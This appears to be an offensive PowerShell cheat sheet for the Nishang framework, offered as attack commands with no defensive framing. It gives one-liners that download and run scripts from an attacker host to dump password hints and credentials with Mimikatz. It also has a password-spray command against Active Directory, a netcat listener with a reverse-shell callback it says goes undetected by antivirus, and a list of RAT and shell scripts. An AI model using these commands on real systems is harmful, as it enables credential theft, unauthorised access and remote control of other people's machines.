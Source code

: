 ### Get-PassHints
we can use to dump the saved password hints For users on the system:

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Get-PassHints.ps1"); Get-PassHints
```

### Invoke-Mimikatz
 Will dump clear-text credentials or hashes from memory.

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -DumpCreds
```

> There is plenty more in Nishang **gather** modules
moreover = https://github.com/samratashok/nishang#gather

### Invoke-BruteForce
We can use this to brute force Active Directory accounts, SQL Server, Web or FTP servers.
Invoke-BruteForce is great tool For executing a password spray attack against Active Directory
Just ensure that your password list contains a single password.

→ Get-Help Invoke-BruteForce

```powershell
Invoke-BruteForce -ComputerName targetdomain.com -UserList C:\temp\users.txt -PasswordList C:\temp\pwds.txt -Service ActiveDirectory -StopOnSuccess -Verbose
```

### Reverse Shell - Invoke-PowerShellTcp 
provides a way to obtain a reverse PowerShell from our target host back to a netcat listener
the traffic is traversing the wire in cleartext between attacker and target.
although a great and undetected by AV method to get a reverse shell from PowerShell, over-the-wire (SIEM) may pick up some chatter if that type of solution has been implemented within an organization.

- Open a listener in the attacker:

```bash
nc -lvnp 4444
```
- Execute the command in the target to grab the file and get the reverse shell:

```powershell
powershell.exe -Command iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAddress <kali ip> -Port 4444
```


- There is a lot more shells available in Nishang framework.
// bind, reverse, ICMP, UDP, RAT, etc
```powershell
Invoke-JSRatRegsvr.ps1
Invoke-JSRatRundll.ps1
Invoke-PoshRatHttp.ps1
Invoke-PoshRatHttps.ps1
Invoke-PowerShellIcmp.ps1
Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcpOneLine.ps1
Invoke-PowerShellTcpOneLineBind.ps1
Invoke-PowerShellUdp.ps1
Invoke-PowerShellUdpOneLine.ps1
Invoke-PsGcat.ps1
Invoke-PsGcatAgent.ps1
Remove-PoshRat.ps1
```
